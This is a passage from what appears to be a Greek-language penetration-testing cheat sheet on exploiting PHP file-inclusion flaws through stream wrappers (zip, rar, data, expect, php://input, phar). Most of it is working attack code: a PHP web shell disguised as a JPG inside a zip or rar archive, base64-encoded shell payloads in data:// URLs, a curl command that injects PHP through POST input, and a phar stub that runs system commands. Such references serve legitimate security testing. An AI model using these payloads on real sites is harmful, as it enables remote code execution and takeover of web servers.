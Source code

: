 ### zip:// και rar://

Ανεβάστε ένα αρχείο Zip ή Rar με ένα PHPShell μέσα και αποκτήστε πρόσβαση σε αυτό.\
Για να μπορέσετε να εκμεταλλευτείτε το πρωτόκολλο rar, **πρέπει να ενεργοποιηθεί συγκεκριμένα**.
```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```
### data://
```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
Σημειώστε ότι αυτό το πρωτόκολλο περιορίζεται από τις ρυθμίσεις php **`allow_url_open`** και **`allow_url_include`**

### expect://

Το Expect πρέπει να είναι ενεργοποιημένο. Μπορείτε να εκτελέσετε κώδικα χρησιμοποιώντας αυτό:
```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
### input://

Καθορίστε το payload σας στις παραμέτρους POST:
```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```
### phar://

Ένα αρχείο `.phar` μπορεί να χρησιμοποιηθεί για την εκτέλεση κώδικα PHP όταν μια διαδικτυακή εφαρμογή εκμεταλλεύεται συναρτήσεις όπως `include` για τη φόρτωση αρχείων. Το παρακάτω απόσπασμα κώδικα PHP δείχνει τη δημιουργία ενός αρχείου `.phar`:
```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```
Για να συμπεριληφθεί το αρχείο `.phar`, θα πρέπει να εκτελεστεί η παρακάτω εντολή:
```bash
php --define phar.readonly=0 create_path.php
```